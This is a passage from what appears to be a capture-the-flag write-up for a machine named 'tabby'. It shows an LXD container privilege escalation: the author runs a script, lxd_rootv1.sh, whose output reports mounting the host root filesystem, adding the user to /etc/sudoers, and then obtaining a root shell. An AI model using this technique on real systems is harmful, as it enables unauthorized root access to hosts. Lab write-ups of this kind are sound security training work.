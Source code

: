 1. List the containers.
2. Run the script with the container name.
3. Enjoy `sudo` privileges.

```bash
ash@tabby:~$ lxc list
lxc list
+--------+---------+---------------------+-----------------------------------------------+-----------+-----------+
|  NAME  |  STATE  |        IPV4         |                     IPV6                      |   TYPE    | SNAPSHOTS |
+--------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| ignite | RUNNING | 10.12.168.88 (eth0) | fd42:da5d:c449:b95c:216:3eff:fea5:d4e6 (eth0) | CONTAINER | 0         |
+--------+---------+---------------------+-----------------------------------------------+-----------+-----------+
ash@tabby:~$ ./lxd_rootv1.sh ignite
./lxd_rootv1.sh ignite
[+] Stopping container ignite
[+] Setting container security privilege on
[+] Starting container ignite
[+] Mounting host root filesystem to ignite
Error: Invalid devices: Device validation failed "mydevice": More than one disk device uses the same path "/mnt/root"
[+] Using container to add ash to /etc/sudoers
[+] Unmounting host root filesystem from ignite
Error: The device doesn't exist
[+] Resetting container security privilege to off
[+] Stopping the container
[+] Done! Enjoy your sudo superpowers!
ash@tabby:~$ sudo su
sudo su
root@tabby:/home/ash# id
id
uid=0(root) gid=0(root) groups=0(root)
```

And we are root!